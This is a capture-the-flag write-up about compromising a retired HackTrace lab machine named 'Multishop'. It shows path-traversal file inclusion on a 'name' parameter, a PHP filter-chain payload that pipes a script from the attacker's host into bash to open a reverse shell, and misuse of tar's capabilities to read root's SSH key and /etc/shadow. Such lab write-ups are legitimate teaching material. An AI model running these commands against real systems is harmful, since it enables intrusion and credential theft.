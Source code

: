 ```yaml
---
title: "Multishop"
# date: 2019-04-18T15:34:30-04:00
categories:
  - blog
tags:
  - ctf
  - hacktrace-ranges
  - retired-mechines
---
```



### Affected Endpoint ###
Scope
```
    host/url:10.1.2.140
    Description: Access using hacktrace vpn
```
working time: 30 agustus - 2 september 2024

### Description ###
Background Story: The more you read, the more things you will know. The more you learn, the more places you will visit. 

vulnerability: file inclusion and Misuse of Linux Capabilities.

### Impact ###
Impact File Inclusion & Misuse of Linux Capabilities is:
- Information Disclosure.
- Code Execution.
- Privilege Escalation.
- System Integrity Compromise.

### Step To Reproduce ###
The steps in finding  vulnerability are as follows:
- Information Gathering.
- Enumeration.
- Exploit.
- Privilege escalation.
- Reporting.

### PoC ###
#### Information Gathering ####
Just as usual, we start off with the Nmap scan:
```
nmap -sCV -p- --min-rate=1000 -oN nmap -Pn 10.1.2.140
```
![alt text](/assets/images/hacktrace/multishop/image1.png)
There are two ports open: 22 (SSH), 80 (HTTP). Not having any credentials for the SSH service service, we will start with enumerating port 80. 
Scan directory using dirsearch
``` 
dirsearch -u http://10.1.2.140 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 50
```
![alt text](/assets/images/hacktrace/multishop/image2.png)
Try scanning the directory again, this time it's interesting in the bio
```
dirsearch -u http://10.1.2.140/bio -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 50
```
![alt text](/assets/images/hacktrace/multishop/image3.png)
That's it, nothing interesting, try looking into the url
![alt text](/assets/images/hacktrace/multishop/image4.png)
It looks like there is no upload file, I tried view-page:source
![alt text](/assets/images/hacktrace/multishop/image5.png)
There is a name parameter, this can indicate input validation, let's try to change the value 
```
http://10.1.2.140/bio/?name=../../../etc/passwd
```
![alt text](/assets/images/hacktrace/multishop/image6.png)
It turns out that we can do file inclusion, seen from the response given. 
Referensi file inclusion :
```
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/File%20Inclusion/README.md
```
after reading through it turns out that file inclusion using wrappers (php: //filter) can be entered, we create the payload using the php_filter_chain_generator.py tool 
```
python3 php_filter_chain_generator.py --chain '<?php phpinfo();?>'
```
later the payload will come out and paste it in the parameter name, if you want the book to continue.
![alt text](/assets/images/hacktrace/multishop/image7.png)
And it does, we can continue to rce, but we have to create a file and live python3 -m http.server, the steps are as follows:
1.	Create a file with the name l (fiel that contains revshel bash) why is the name l and does not contain extensions? because so that the payload is not too long, because it is usually an error, the length of url
 ![alt text](/assets/images/hacktrace/multishop/image8.png)
2.	After that, start the server with python3 -m http.server 80
 ![alt text](/assets/images/hacktrace/multishop/image9.png)
3.	Turn on nc to capture the payload we created in the file earlier nc -lvnp port
4.	Generate payload : python3 php_filter_chain.py --chain  '<?=`curl -s -L 10.18.200.165/l|bash`?>' (meaning that after successfully getting files from our machine server, it is immediately run)
  ![alt text](/assets/images/hacktrace/multishop/image10.png)
  ![alt text](/assets/images/hacktrace/multishop/image11.png)
Now the payload is successful, because the file can be obtained by the target server and immediately executed
5.	Successful, we have entered the server as www-data
  ![alt text](/assets/images/hacktrace/multishop/image12.png)
### Privilage Escalation ###
1.	Grab linpeas.sh from our machine and move it to the target machine with wget then run linpeas.sh 
2.	After running it successfully found Files with capabilities (limited to 50)
  ![alt text](/assets/images/hacktrace/multishop/image13.png)
  We can manipulate this to get root privileges. There is a capability reference for privsec.: 
  `https://juggernaut-sec.com/capabilities/`
3.	We use the /usr/bin/tar to get access rights, try to find id_rsa for ssh login as root.
4.	We move to the bin directory with the command: cd /usr/bin.
5.	then tar xf “/root/.ssh/id_rsa” -I '/bin/sh -c “cat 1>&2”' then the id_rsa output will come out.
  ![alt text](/assets/images/hacktrace/multishop/image14.png)
6.	managed to get the credential id_rsa to login to ssh as root without using a password, but we can also see the root password (/etc/shadow) by using this credential capability, but it takes time to decrypt the password and we also don't know what wordlist is used. This is the /etc/shadow file: 
  ![alt text](/assets/images/hacktrace/multishop/image15.png)
We see 2 passwords appear, but this takes a long time, so we use id_rsa for ssh login.
7.	Save the id_rsa that appears then chmod 600 nama_file, the meaning of chmod 600 is that only the file owner can read and write the file, keeping the data safe from unwanted access.
8.	Then ssh -i nama_file root@10.1.2.140
9.	Boom, the book can be logged in as the highest access rights root
  ![alt text](/assets/images/hacktrace/multishop/image16.png)


### USER FLAG = user.txt ###
### ROOT FLAG = root.txt ###

















